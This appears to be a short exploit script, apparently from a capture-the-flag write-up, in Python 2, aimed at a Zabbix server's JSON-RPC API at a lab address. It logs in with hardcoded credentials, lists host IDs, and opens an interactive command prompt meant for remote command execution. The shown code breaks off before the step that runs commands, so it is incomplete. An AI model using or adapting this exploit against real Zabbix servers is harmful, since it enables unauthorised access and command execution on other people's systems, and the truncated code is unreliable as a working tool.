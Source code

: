 Full exploit updated:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-


import requests
import json
import readline


url = 'http://10.10.10.108/zabbix/api_jsonrpc.php'

login = 'zapper'
password = 'zapper'

# auth to API
payload = {
    "jsonrpc" : "2.0",
    "method" : "user.login",
    "params": {
    	'user': ""+login+"",
    	'password': ""+password+"",
    },
   	"auth" : None,
    "id" : 0,
}
headers = {
    'content-type': 'application/json',
}

auth  = requests.post(url, data=json.dumps(payload), headers=(headers))
auth = auth.json()

# find the host id

host_get = {
    "jsonrpc": "2.0",
    "method": "host.get",
    "params": {
        "output": [
            "hostid",
            "host"
        ],
        "selectInterfaces": [
            "interfaceid",
            "ip"
        ]
    },
    "id": 2,
    "auth": auth['result'],
}

host_id = requests.post(url, data=json.dumps(host_get), headers=(headers))
host_id = host_id.json()


while True:
    cmd = raw_input('\033[41m[zabbix_cmd]>>: \033[0m ')
    if cmd == "" : print "Result of last command:"
    if cmd == "quit" : break
 
# update
```